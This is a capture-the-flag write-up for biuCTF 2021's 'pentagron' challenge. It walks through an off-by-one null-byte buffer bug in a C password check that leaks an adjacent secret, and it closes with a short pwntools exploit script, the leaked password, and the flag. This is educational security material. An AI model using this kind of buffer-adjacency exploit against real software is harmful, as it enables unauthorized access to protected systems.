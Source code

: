 # pentagron - biuCTF 2021

Let's connect to the server. We neet to enter a secret password to get get the flag. The server requests the password twice.
Now let's view the source code, the program gets the first input by:
```C
char secret[17];
char buf[16];
//load the password from the secret file!

char * line = NULL;
size_t len = 0;
ssize_t read;

FILE * fp = fopen("password.txt", "r");
fgets(secret_pass, 17, fp);
fclose(fp);
printf("Welcome to the Pentagon Network!\n");
printf("Please enter the secret passwword to continue:");
fgets(big_buf, 100, stdin);
// remove newline
big_buf[strcspn(big_buf, "\n")] = 0;
if(strlen(big_buf)>16){
    printf("Too many bytes entered!\n");
    exit(0);
}
sscanf(big_buf,"%16s",buf); 
strcpy(secret, secret_pass);
printf("You tried to log in with %s\n", buf);
```
The important thing to notice here is that we are limited to input of 16 characters, but the size of the buffer where our input is saved in is 16 charcters. Meaning that if we give input of 16 characters, the null byte will be at ```buf[17]```, which is ```secret[0]``` (```buf``` is located exactly after ```secret```). Since the user input is copied to ```buf``` before the password is copied to ```secret```, if we'll give a 16-char input, like ```AAAAAAAAAAAAAAAA```, the stack would look like this:
```
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| buf |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   | secret |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   |    |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| A   | A | A | A | A | A | A | A | A | A | A | A | A | A | A | A |   X    | X | X | X | X | X | X | X | X | X | X | X | X | X | X | X | \0 |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
```
Where the x's are the secret password.
Let's try it:
```
Please enter the secret passwword to continue:AAAAAAAAAAAAAAAA
You tried to log in with AAAAAAAAAAAAAAAAsecreT_p4sssw0rd
lol what a noob. I'm nice so here's another try. Even though I don't think you'll succeed :)
```
So we know the password is secreT_p4sssw0rd! But just giving it as an input will not work because of the bug that overrides the input null byte.

Here is how the program gets the second input:
```C
sscanf(big_buf,"%16s",buf); 
strcpy(secret, secret_pass);
printf("You tried to log in with %s\n", buf);

if (super_secure_compare(buf, secret,16) == 0) {
    puts("Wow! how did u do it??\n");
    printf("here's the flag!\n");
    printFlag();
}
```
Now we write to buf after the password is already there. So if we give ```AAAAAAAAAAAAAAAA``` as an input the stack would look like:
````
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| buf |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   | secret |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   |    |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| A   | A | A | A | A | A | A | A | A | A | A | A | A | A | A | A |   \0   | e | c | r | e | T | _ | p | 4 | s | s | s | w | 0 | r | d | \0 |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+

````
So if we give input that starts with ```\0```, ```strlen(buf, secret)``` will return 0. But the program comares them using ```super_secure_compare```:
```C
int super_secure_compare(char* str1, char* str2,int size) {
	//let's compare N times the strings and its substrings, just to be certain!
	if (size == 0)
		return 0;
	return strcmp(str1, str2) || super_secure_compare(str1 + 1, str2 + 1, size - 1);
}
```
Because of this, we need to make sure not only ```buf``` and ```secret``` points to the same string, but also ```buf+i``` and ```secret+i``` points to the same string for every i from 0 to 15.
Giving ```\0ecreT_p4sssw0rd``` as an input will do the work.

Here is my python script to get the flag:
```python
from pwn import *

r = remote('34.118.43.143', 3000)
r.recvuntil('continue:')
r.sendline('A'*16)
r.recvuntil('ord:')
r.sendline('\0ecreT_p4sssw0rd')
print(r.recvall())
```
And we got it!
```
biuCTF{hex4gons_4_de_w1n}
```
